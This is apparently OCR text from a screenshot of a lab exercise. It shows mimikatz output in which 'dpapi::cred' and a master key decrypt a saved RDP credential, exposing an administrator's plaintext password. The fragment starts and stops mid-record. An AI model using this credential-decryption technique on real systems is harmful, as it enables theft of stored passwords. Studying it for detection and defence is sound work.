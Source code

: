 ```console
  credSize       : 000000e0 - 224
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 2023-11-24 7:30:06
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=TERMSRV/192.168.70.130
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : DESKTOP-TEST\administrator
  CredentialBlob : Admin@123
  Attributes     : 0

mimikatz # dpapi::cred /in:84BD531FDD20A7ED510558FA8768BA20 /masterkey:9458e389d675c03e3134abca123a5f97b0344db9ec7eb77ca65e962ed238d3d9d62ba12e9b227587df8f430762790758c7a1dcf8f0baad587c0301305e088205
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      : 本地凭据数据

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : cbc61bdb2a8cda88dafb2c090aaf64b6c8edfc5f32a134839f083fa469a95c7f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 3c157c9d67b4e62952b3f8b72d841a35cff4d012e46c2c8f91e4e21af8a91e45
  dwDataLen          : 000000f0 - 240
  pbData             : 3e705a067361549290c628f53ae625d3961d29c2eeba9ba24270723dc3021ad8f6bb9e29c474951492d3ae470daf715825b33652607967a9394f0d10b7e35a34c57396d41e9faba5ea89fe969a7ead9e76035dfe3aff6c2b7d6332ea0b2fec5ea2eca2ad1054808dab04d17e4a818f2fbe0aed21b3e217604f2b52e04736c77349f0455c832af7120ffb1eda7dd3b5fc6214f697564e28b2c916d8ab926ffc65571e6475ca7d746e63d4b919519970233359ef2c547f2f3422b9d4199e1f4bcc3f5d034f6d47da39469331fa31adacefaba7dd7aae4b6fb3fea8a873815336cff1c62bb60b2fdbb69647c520a01550f6
  dwSignLen          : 00000040 - 64
  pbSign             : f776ff8611228511d6c93bd259caeea4bdf66908fc9a79c6c5841d85bb340f02489972d82ca9124bf6adc48ac6c4341a2012dc070a3d6c9b1c850d29298bd4a0

Decrypting Credential:
 * volatile cache: GUID:{52c3460d-2e8b-4764-957c-57185d4d62b2};KeyHash:b53ebc9462b9cf6284f116b46d3a869091cc398f;Key:available
 * masterkey     : 9458e389d675c03e3134abca123a5f97b0344db9ec7eb77ca65e962ed238d3d9d62ba12e9b227587df8f430762790758c7a1dcf8f0baad587c0301305e088205
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000e0 - 224
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
```
